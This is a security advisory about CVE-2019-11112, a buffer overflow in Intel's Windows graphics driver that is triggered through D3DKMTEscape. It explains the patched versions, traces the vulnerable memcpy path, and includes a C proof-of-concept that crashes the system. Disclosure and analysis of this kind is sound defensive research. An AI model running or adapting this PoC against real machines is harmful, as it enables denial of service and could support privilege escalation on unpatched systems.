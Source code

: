 # SSD Advisory – Intel Windows Graphics Driver Buffer Overflow to Privilege Escalation66

## Vulnerability Summary
The igdkmd64 module in the Intel Graphics Driver DCH on Windows allows local users to gain Escalation of Privileges or cause Denial of Service (crash) via a crafted D3DKMTEscape request.

## CVE
CVE-2019-11112

## Credit
SSD Secure Disclosure / Ori Nimron

## Affected Systems
Tested on Intel Graphics Driver DCH 25.20.100.6323 and on 25.20.100.6577 (latest at the time of writing this report), on Windows 10 Version 1809.

## Vendor Response
Intel fixed the issue in versions 26.20.100.6813 and 26.20.100.6812 of the Intel(R) Graphics Driver. For more information see [2019.2 IPU](https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00242.html).

## Vulnerability Details
The driver’s callback function DxgkDdiEscape contains a memory corruption vulnerability that can be triggered by local users can trigger the vulnerability by crafting a malicious request to the D3DKMTEscape function.   
In DxgkDdiEscape, there is a global variable (which I named as “escape_jmp_table”) which is an array of pointers to functions. The function will choose which function to call based on the value of the third parameter of the privateDriverData value that is controlled by the local user.  
The structure of privateDriverData looks something like this:
``` c
typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[100];
} privateDriverData;
```

The DxgkDdiEscape will call to sub_14004FCE0 (which I will name it as ESCAPE_CONTINUE_TO_TABLE). The ESCAPE_CONTINUE_TO_TABLE will load the “escape_jmp_table” and will call the function to which escape_jmp_table[pPrivateDriverData.escape_jmp_table_index] points to.
![Ida 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-1.png)

The vulnerability discovered lies in the function being called by the pointer found by the value of the second index of the escape_jmp_table. This function (sub_140085E70) does a switch case on the fourth parameter of the privateDriverData and decides to which function to call by the value given.  
This image shows the various switch case handling this function (sub_140085E70) supports:
![Ida 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-2-1024x206.png)

In case that the value of the fourth parameter in the structure is 205, the function the sub_140092E80 will be called:
![Ida 3](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-3.png)

This function allocates a buffer on the stack and calls sub_1400AD9F0 with this buffer, I will name this buffer as local_buf:
![Ida 4](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-4.png)

The subsequent function sub_1400AD9F0 does a memcpy(pPrivateDriverData.buffer + 0xb, 0x200, localbuf + 0xb, 0x200).  
The memcpy is called with a fixed size, no checks on the pPrivateDriverData buffer size, which means that if pPrivateDriverData.buffer length is smaller than 0x200 + 0xb, an overflow will be triggered. This overflow can lead to Escalation of Privileges (by utilizing a null pointer dereference exploitation method) or local Denial of Service.
![Ida 5](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Ida-5.png)

## Proof of Concept
The following PoC calls the D3DKMTEscape function with previously mentioned parameters that will trigger the vulnerable function and the system will crush due to security cookie check failure. The full code is in the Escape directory which contains a visual studio solution:

``` c
#define BUF_SIZE 100

static const char* intel = "Intel";

typedef struct {
	UINT unknown1;
	UINT unknown2;
	UINT escape_jmp_table_index;
	UINT switchcase_index;
	char buffer[BUF_SIZE];
} PrivateDriverData;

int main()
{
	int result = 0;
	DRIVER_INFO driverInfo = { 0 };
	D3DKMT_ESCAPE escapeObj = { 0 };
	PrivateDriverData data = { 0 };
	int status = initDriver(&driverInfo, intel);
	if (!NT_SUCCESS(status)) {
		printf("Could not initialize connection to driver");
		return -1;
	}
	printf("[+] Initialized driver\n");
	escapeObj.Type = D3DKMT_ESCAPE_DRIVERPRIVATE;
	escapeObj.hAdapter = driverInfo.hAdapter;
	escapeObj.hDevice = (D3DKMT_HANDLE)NULL;
	data.unknown1 = 'AAAA';
	data.unknown2 = 'BBBB';
	data.escape_jmp_table_index = 1;
	data.switchcase_index = 205; // vulnerable case
	memset(data.buffer, 'A', BUF_SIZE);

	escapeObj.pPrivateDriverData = (void*)&data;
	escapeObj.PrivateDriverDataSize = sizeof(data);
	status = D3DKMTEscape(&escapeObj); // Will not return, it will crash the system.
	if (!NT_SUCCESS(status)) {
		printf("[-] D3DKMTEscape failed (%x)", status);
	}
	getchar();
	return 0;
}
```

## Result in WinDbg
![WinDbg 1](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Windbg-1.png)
![WinDbg 2](https://ssd-disclosure.com/wp-content/uploads/2019/06/Intel-Driver-Windbg-2.png)

We can see in the above screenshot that a buffer overflow occurred, and the system crashes.
